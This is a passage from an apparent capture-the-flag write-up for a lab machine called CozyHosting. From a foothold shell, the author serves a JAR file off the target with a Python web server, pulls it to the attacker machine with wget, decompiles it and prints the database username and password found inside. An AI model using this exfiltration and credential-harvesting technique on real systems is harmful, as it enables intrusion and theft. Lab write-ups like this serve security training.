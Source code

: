 Only one user `josh` is present in the `/home` directory. Let's explore other directories.

There is a unusual file in root, `/app` directory

```
app@cozyhosting:/$ cd /app/
app@cozyhosting:/app$ ls
cloudhosting-0.0.1.jar
```

Let's download this file to our machine and decompile it using [JD-GUI](https://java-decompiler.github.io/)

<h5>Target:</h5>

```
app@cozyhosting:/app$ which python3
/usr/bin/python3
app@cozyhosting:/app$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

<h5>Attacker</h5>

```
wget 10.10.11.230:8000/cloudhosting-0.0.1.jar
```

`jg-gui cloudhosting-0.0.1.jar`

![JD-GUI](jd-gui.png)

We can see that there are credentials for the database `postgres`

```
spring.jpa.database=POSTGRESQL
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR
```
